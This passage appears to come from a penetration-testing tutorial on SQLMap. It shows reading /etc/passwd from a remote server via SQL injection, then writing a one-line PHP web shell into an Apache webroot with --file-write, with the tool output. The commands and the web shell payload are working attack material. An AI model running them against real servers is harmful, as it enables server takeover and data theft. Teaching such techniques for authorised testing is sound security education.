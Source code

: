 As we can see, SQLMap said `files saved` to a local file. We can `cat` the local file to see its content:
```bash
$ cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```
We have successfully retrieved the remote file.
### Writing Local Files
When it comes to writing files to the hosting server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a **Web Shell** on the remote server, and hence get code execution and take over the server.

This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. For example, in **MySQL**, the '`--secure-file-priv`' configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE` SQL query, in addition to any local access needed on the host server, like the privilege to write in the directory we need.

Still, many web apps require the ability for **DBMSes** to write data into files, so it is worth testing whether we can write files to the remote server. 

To do that with SQLMap, we can use the `--file-write` and `--file-dest` options. First, let's prepare a basic **PHP web shell** and write it into a `shell.php` file:
```bash
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, let's attempt to write this file on the remote server, in the `/var/www/html/` directory, the default server **Webroot** for **Apache**. If we didn't know the server **Webroot**, we will see how SQLMap can automatically find it:
```bash
$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```
